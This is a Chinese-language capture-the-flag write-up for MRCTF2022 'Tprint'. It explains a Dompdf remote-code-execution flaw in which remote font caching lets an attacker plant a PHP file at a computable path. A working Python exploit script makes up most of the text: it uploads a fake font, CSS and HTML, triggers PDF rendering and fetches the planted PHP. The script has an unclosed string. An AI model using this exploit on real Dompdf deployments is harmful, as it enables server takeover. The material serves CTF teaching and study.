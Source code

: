 ## MRCTF2022 Tprint

## 环境启动

```
docker-compose up -d --build
```

### Exp

```
cd exp
python exp.py
```

## WriteUp

考点：Dompdf  Rce

tprint的灵感来自一个[1day](https://github.com/positive-security/dompdf-rce)

当时出题的时候网上分析还没那么多，结果比赛的时候已经有[师傅分析的很透彻了](https://ghostasky.github.io/2022/03/19/dompdf 0day(RCE)复现/)

主要就是利用dompdf在解析html文件时会默认加载远程css并且进一步缓存远程字体文件的问题。因为未对字体文件后缀进行过滤，导致可以直接缓存任意文件，并且缓存文件名是可以计算出来的。这就导致了一个间接的文件写漏洞。

盗一下github上的攻击示意图：

![img](README.assets/upload_33de0f7bc1cd7b4b02da21840baaaaf9.png)

原攻击手法是通过xss来注入css，因为本题不出网，设置了一个文件上传点，通过上传html的方式来进行css注入。我们只需要把恶意字体文件/恶意css/恶意html文件上传上去然后打印我们的恶意文件就能同样触发这个攻击链。

Exp如下：

```
import requests
from hashlib import md5

url = "http://246abfb2-0f91-48ec-a88c-b2314709ed87.node1.mrctf.fun:81"

font_name = "eki"

def print2pdf(page):
    param= {
        "s":"Printer/print",
        "page":page
    }
    res = requests.get(f"{url}/public/index.php",params=param)
    return res

def upload(filename,raw):
    data = {
        "name":"avatar",
        "type":"image",
    }
    res = requests.post(f"{url}/public/index.php?s=admin/upload",data=data,files={"file":(filename,raw,"image/png")})
    return res.json()["result"]

exp_font = "./exp.php"

php_location = upload("exp.php",open(exp_font,"rb").read())

print(f"php_location=>{php_location}")

exp_css = f"""
@font-face{{
    font-family:'{font_name}';
    src:url('http://localhost:81{php_location}');
    font-weight:'normal';
    font-style:'normal';
}}

css_location = upload("exp.css",exp_css)

print(f"css_location=>{css_location}")


html = f"""
<link rel=stylesheet href='http://localhost:81{css_location}'><span style="font-family:{font_name};">5678</span>
"""

html_location = upload("exp.html",html)


payload = "/storage/"
print(f"html_location=>{html_location}")

p = html_location

print(p)

res  = print2pdf(p)

open("out.pdf","wb").write(res.content)

md5helper = md5()

md5helper.update(f"http://localhost:81{php_location}".encode())

remote_path = f"/vendor/dompdf/dompdf/lib/fonts/{font_name}-normal_{md5helper.hexdigest()}.php"

print(f"remote_path=>{remote_path}")

res = requests.get(url+remote_path)

print(res.text)
```

![img](README.assets/upload_4d110c9c519ff2b6422f6021c04f57da.png)